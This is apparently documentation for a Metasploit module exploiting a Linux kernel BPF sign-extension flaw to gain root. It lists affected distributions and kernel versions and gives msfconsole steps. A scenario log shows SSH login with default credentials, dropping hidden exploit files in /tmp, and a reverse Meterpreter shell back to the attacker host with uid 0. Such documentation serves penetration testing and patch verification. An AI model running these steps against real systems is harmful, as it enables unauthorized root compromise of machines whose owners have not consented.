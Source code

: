 ## Vulnerable Application

  Linux kernel prior to 4.14.8 utilizes the Berkeley Packet Filter (BPF)
  which contains a vulnerability where it may improperly perform sign
  extension. This can be utilized to escalate privileges.

  The target system must be compiled with BPF support and must not have
  `kernel.unprivileged_bpf_disabled` set to `1`.

  This module has been tested successfully on:

  * Debian 9.0 kernel 4.9.0-3-amd64;
  * Deepin 15.5 kernel 4.9.0-deepin13-amd64;
  * ElementaryOS 0.4.1 kernel 4.8.0-52-generic;
  * Fedora 25 kernel 4.8.6-300.fc25.x86_64;
  * Fedora 26 kernel 4.11.8-300.fc26.x86_64;
  * Fedora 27 kernel 4.13.9-300.fc27.x86_64;
  * Gentoo 2.2 kernel 4.5.2-aufs-r1;
  * Linux Mint 17.3 kernel 4.4.0-89-generic;
  * Linux Mint 18.0 kernel 4.8.0-58-generic;
  * Linux Mint 18.3 kernel 4.13.0-16-generic;
  * Mageia 6 kernel 4.9.35-desktop-1.mga6;
  * Manjero 16.10 kernel 4.4.28-2-MANJARO;
  * Solus 3 kernel 4.12.7-11.current;
  * Ubuntu 14.04.1 kernel 4.4.0-89-generic;
  * Ubuntu 16.04.2 kernel 4.8.0-45-generic;
  * Ubuntu 16.04.3 kernel 4.10.0-28-generic;
  * Ubuntu 17.04 kernel 4.10.0-19-generic;
  * ZorinOS 12.1 kernel 4.8.0-39-generic.

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_sign_extension_priv_esc`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-116-generic)

#### Initial Access

  ```
  resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
  resource (ubuntu.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (ubuntu.rb)> set username ubuntu
  username => ubuntu
  resource (ubuntu.rb)> set password ubuntu
  password => ubuntu
  resource (ubuntu.rb)> exploit
  [+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
  [*] Command shell session 1 opened (1.1.1.1:36273 -> 2.2.2.2:22) at 2018-03-23 20:42:04 -0400
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

#### Escalate

  ```
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] System architecture x86_64 is supported
  [+] Unprivileged BPF loading is permitted
  [+] Kernel version 4.4.0-116-generic appears to be vulnerable
  [*] Dropping pre-compiled exploit on system...
  [*] Writing '/tmp/.H996s4DFVI' (34784 bytes) ...
  [*] Max line length is 65537
  [*] Writing 34784 bytes in 3 chunks of 56732 bytes (octal-encoded), using printf
  [*] Next chunk is 48021 bytes
  [*] Next chunk is 5244 bytes
  [*] Writing '/tmp/.JK94QjQKa' (207 bytes) ...
  [*] Max line length is 65537
  [*] Writing 207 bytes in 1 chunks of 629 bytes (octal-encoded), using printf
  [*] Launching exploit ...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (861480 bytes) to 2.2.2.2
  [*] [.] 
  [*] Cleaning up /tmp/.JK94QjQKa and /tmp/.H996s4DFVI ...
  [*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:52906) at 2018-07-21 09:29:32 -0400
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

